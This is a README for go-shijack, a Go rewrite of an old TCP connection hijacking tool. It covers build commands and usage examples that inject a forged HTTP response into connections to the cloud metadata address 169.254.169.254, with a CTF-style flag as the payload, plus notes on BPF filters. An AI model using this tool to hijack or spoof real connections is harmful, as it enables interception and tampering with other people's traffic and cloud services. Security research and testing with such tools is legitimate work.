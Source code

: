 # go-shijack

tcp connection hijacker, go rewrite of shijack from 2001.

## build

```
make go-shijack
```

```
make container
```

```
CGO_ENABLED=0 go install github.com/ssst0n3/go-shijack/cmd/go-shijack@v0.1.0
```

## usage

```
root@ecs-c5a4:~# cat > flag << EOF

HTTP/1.1 200 OK
Content-Length: 11

flag{test}
EOF
```

```
root@ecs-c5a4:~# ./go-shijack -t eth0 -i 169.254.169.254 -p 80 -f flag &
[1] 362712
root@ecs-c5a4:~# curl http://169.254.169.254
flag{test}
```

or

```
root@ecs-c5a4:~# docker run -d --net=host -ti --rm -v $(pwd):/data ssst0n3/go-shijack:v0.1 -t eth0 -i 169.254.169.254 -p 80 -f /data/flag -k
root@ecs-c5a4:~# curl http://169.254.169.254
flag{test}
```

## bpf

### method 1

Use predefined pattern, just provide host and port to go-shijack

### TODO: method 2 

Compile filter manually

`tcpdump ip -d -s 65536 host 169.254.169.254`

## related project

* [rshijack](https://github.com/kpcyrd/rshijack)
* [shijack](https://packetstormsecurity.com/files/24657/shijack.tgz.html)
